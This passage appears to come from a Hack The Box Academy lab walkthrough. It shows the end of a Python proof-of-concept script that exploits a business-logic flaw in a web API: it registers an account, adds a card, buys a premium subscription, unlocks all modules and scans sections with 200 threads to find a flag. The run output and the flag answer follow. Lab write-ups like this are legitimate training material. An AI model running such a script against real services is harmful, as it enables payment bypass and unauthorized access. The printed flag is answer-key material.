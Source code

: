 ```python
    username = name
    email = f"{''.join(random.choices(string.ascii_letters, k = 6))}@htb.com"
    password = "".join(random.choices(string.ascii_letters + string.digits, k=10))

    print(
        f"\n[!]  Using the following email and password for PoC: {email}:{password}\n"
    )
    RegisterUserAccount(name, username, email, password)
    print(f"[+] Registered User Successfully!")
    JWT = Login(email, password)
    print(f"[+] Login Successful!")
    CardId = AddPaymentCardAndGetID(JWT)
    print(f"[+] Added Payment Card Successfully!")
    BuyPlatinumSubscription(CardId)
    print(f"[+] Bought Platinum Subscription Successfully!")
    # Get a new JWT after Buying Platinum Subscription
    NewJWT = Login(email, password)
    ModuleIds = UnlockAllModules(NewJWT)
    print(f"[+] Unlocked All Modules Successfully!")
    AllSections = GetAllSectionsOfModules(ModuleIds)

    argsList = zip(AllSections, [NewJWT] * len(AllSections))
    with ThreadPoolExecutor(max_workers=200) as threadPoolExecutor:
        threadPoolExecutor.map(FindFlag, argsList)

main()
```

After saving it to a file, students can run the script and provide it `STMIP` and `STMPO`:

Code: shell

```shell
python3 PoC.py STMIP STMPO
```

```
┌─[eu-academy-1]─[10.10.15.152]─[htb-ac-413848@htb-gztijyxh70]─[~]
└──╼ [★]$ python3 PoC.py 94.237.49.11 34847

[!]  Using the following email and password for PoC: pSGmso@htb.com:67jBSKAxRO

[+] Registered User Successfully!
[+] Login Successful!
[+] Added Payment Card Successfully!
[+] Bought Platinum Subscription Successfully!
[+] Unlocked All Modules Successfully!
[+] Found Flag: HTB{4_109!c_6u95_1!f3!}
[+] API GET Endpoint: /api/sections/11/148
```

Answer: `HTB{4_109!c_6u95_1!f3!}`